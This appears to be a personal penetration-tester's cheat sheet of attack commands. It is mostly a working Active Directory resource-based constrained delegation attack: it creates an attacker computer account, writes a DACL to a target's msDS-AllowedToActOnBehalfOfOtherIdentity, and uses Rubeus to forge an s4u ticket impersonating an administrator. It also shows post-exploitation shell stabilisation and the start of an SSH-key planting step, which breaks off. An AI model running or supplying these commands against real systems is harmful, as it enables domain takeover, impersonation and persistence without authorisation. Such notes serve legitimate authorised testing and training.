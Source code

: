 Just a list of commands that I may need to run

```rust
iptables -A INPUT -s 10.10.110.10 -p tcp --dport 443 -j DROP
```

# Working Notes

Generic write to a computer object can be used to perform a resource based constrained delegation attack.

Abusing this primitive is currently only possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account:
```rust
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```
PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```rust
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```rust
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:

```rust
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

Rubeus.exe hash /password:Summer2018!
And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```rust
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

# Stabilize Shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

ctr +z 

```
stty raw -echo; fg
```

```
export TERM=xterm
```

SSH
I. Generate an SSH public-private key pair on your machine:

   ```bash
   ssh-keygen -t rsa
   ```

2. Write the public key to a file:

   ```bash
   (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
   ```
